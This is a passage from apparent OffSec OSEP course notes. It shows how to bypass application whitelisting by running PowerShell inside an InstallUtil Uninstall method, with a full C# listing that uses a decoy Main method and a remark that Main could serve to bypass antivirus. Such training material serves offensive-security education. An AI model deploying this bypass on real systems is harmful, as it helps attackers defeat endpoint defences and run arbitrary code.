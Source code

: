 There are a few things to note about this code. First, the _System.Configuration.Install_ namespace is missing an assembly reference in Visual Studio. We can add this by again right-clicking on _References_ in the Solution Explorer and choosing _Add References..._. From here, we'll navigate to the _Assemblies_ menu on the left-hand side and scroll down to _System.Configuration.Install_, as shown in Figure 11.

![[OffSec/OSEP/Course/z. images/a01785bf93e1d03ae4f1ab58af104201_MD5.jpg]]

Figure 11: Adding an assembly reference to System.Configuration.Install

Once the assembly reference has been added the displayed errors are resolved. Although our code uses both the _Main_ method and the _Uninstall_ method, content in the _Main_ method is not important in this example. However, the method itself must be present in the executable.

Since the content of the _Main_ method is not part of the application whitelisting bypass, we could use it for other purposes, like bypassing antivirus.

Inside the _Uninstall_ method, we can execute arbitrary C# code. In this case, we will use the custom runspace code we developed in the previous section. The combined code is shown in Listing 20.

```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;

            ps.AddScript(cmd);

            ps.Invoke();

            rs.Close();
        }
    }
}
```
